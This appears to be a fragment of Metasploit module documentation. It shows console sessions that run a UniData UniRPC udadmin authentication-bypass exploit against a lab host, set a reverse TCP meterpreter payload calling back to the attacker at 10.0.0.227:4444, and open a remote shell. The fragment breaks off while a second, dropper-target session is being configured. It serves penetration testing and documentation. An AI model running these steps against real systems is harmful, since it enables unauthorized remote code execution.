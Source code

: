 ```
msf > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIDATA_VERSION 8.2.4
[-] Unknown datastore option: UNIDATA_VERSION.

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_USERNAME ron
UNIRPC_USERNAME => ron

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_UID 1000
UNIRPC_UID => 1000

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / ron:1000:1000
[*] 10.0.0.198:31438 - Sending OsCommand request
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 2 opened (10.0.0.227:4444 -> 10.0.0.198:54562) at 2023-04-11 09:39:14 -0700

meterpreter > getuid
Server username: ron
```

### Version 8.2.4 as root, with unix dropper target

```
msf > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix Command
    1   Linux Dropper


msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set TARGET 1
TARGET => 1

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
```